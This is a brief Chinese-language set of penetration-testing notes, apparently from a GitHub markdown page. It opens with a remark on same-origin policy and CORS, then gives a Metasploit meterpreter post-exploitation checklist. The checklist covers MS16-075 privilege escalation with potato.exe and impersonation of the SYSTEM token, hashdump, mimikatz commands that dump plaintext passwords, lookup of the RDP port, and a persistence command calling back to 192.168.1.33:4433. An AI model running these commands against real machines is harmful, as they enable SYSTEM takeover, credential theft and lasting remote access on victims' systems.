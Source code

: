 - 无论是同源策略还是CORS，都是浏览器阻止了响应的呈现，而非阻止了请求的发送。

- MSF获取到meterpreter后常见流程：[https://xz.aliyun.com/t/2416](https://xz.aliyun.com/t/2416)

  ```
  1.ms16-075提权命令
  upload potato.exe
  use incognito
  list_tokens -u
  execute -cH -f ./potato.exe
  list_tokens -u
  impersonate_token "NT AUTHORITY\SYSTEM"
  getuid
  2.获取密码哈希值
  run hashdump
  3.mimikatz进行密码获取
  load mimikatz
  kerberos、livessp、msv、ssp、tspkg、wdigest（逐个命令测试，有的会显示明文密码）
  mimikatz_command：mimikatz命令提示窗口
  mimikatz_command -f sekurlsa::wdigest -a "full"
  mimikatz_command -f sekurlsa::logonpasswords
  4.远程终端端口查看命令
  tasklist /svc | find "TermService"
  netstat -ano | find "2872"
  5.持久化攻击
  run persistence -X -i 50 -p 4433 -r 192.168.1.33
  ```

  ​